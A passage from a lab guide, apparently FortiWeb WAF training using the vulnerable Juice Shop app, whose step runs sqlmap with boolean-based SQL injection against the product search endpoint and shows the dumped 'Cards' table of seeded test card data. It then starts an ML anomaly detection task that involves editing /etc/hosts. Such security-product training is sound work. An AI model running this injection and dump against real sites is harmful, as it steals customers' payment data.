     ```

1. Execute the following command in the Jumpbox terminal. Answer N (no) when prompted.

    ```bash
    sqlmap -u "http://FortiWeb Public IP:3000/rest/products/search?q=" --technique=B -T Cards --threads 10 --dump
    ```

    > do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
      do you want to crack them via a dictionary-based attack? [Y/n/q] N
      Database: <current>
      Table: Cards
      [6 entries]
      +----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
      | id | UserId | 255 | cardNum          | expYear | expMonth | fullName         | createdAt                      | updatedAt                      |
      +----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+
      | 1  | 4      | 255 | 4815205605542754 | 2092    | 12       | Bjoern Kimminich | 2022-03-28 17:02:26.911 +00:00 | 2022-03-28 17:02:26.911 +00:00 |
      | 2  | 17     | 255 | 1234567812345678 | 2099    | 12       | Tim Tester       | 2022-03-28 17:02:27.287 +00:00 | 2022-03-28 17:02:27.287 +00:00 |
      | 3  | 1      | 255 | 4716190207394368 | 2081    | 2        | Administrator    | 2022-03-28 17:02:27.308 +00:00 | 2022-03-28 17:02:27.308 +00:00 |
      | 4  | 1      | 255 | 4024007105648108 | 2086    | 4        | Administrator    | 2022-03-28 17:02:27.308 +00:00 | 2022-03-28 17:02:27.308 +00:00 |
      | 5  | 2      | 255 | 5107891722278705 | 2099    | 11       | Jim              | 2022-03-28 17:02:27.330 +00:00 | 2022-03-28 17:02:27.330 +00:00 |
      | 6  | 3      | 255 | 4716943969046208 | 2081    | 2        | Bender           | 2022-03-28 17:02:27.344 +00:00 | 2022-03-28 17:02:27.344 +00:00 |
      +----+--------+-----+------------------+---------+----------+------------------+--------------------------------+--------------------------------+

## Task 6: ML Anomaly Detection

1. Navigate to [https://github.com/FortiLatam/juiceshop/blob/main/helpers/JuiceShop_.MLanomaly.dat](https://github.com/FortiLatam/juiceshop/blob/main/helpers/JuiceShop_.MLanomaly.dat)

1. Download the .dat file:

    ![LE3 MLA img1](LE3-MLA-img1.png)

1. Because we are using a pre-trained data model based on a wildcard url, we will need to use a domain name. For this test, we are going to edit the **/etc/hosts** file on Kali. This will allow us to locally resolve **student.fwebtraincse.com**. Open a new Terminal and use the directional arrows on your keyboard to navigate. When you get to the bottom of the hosts file, input **FORTIWEB PUBLIC IP** **student.fwebtraincse.com**. Use INSERT to start editing the file. To exit saving the file: ESC then type ```wq!``` and ENTER. To exit without saving: ESC then type ```q!``` and ENTER
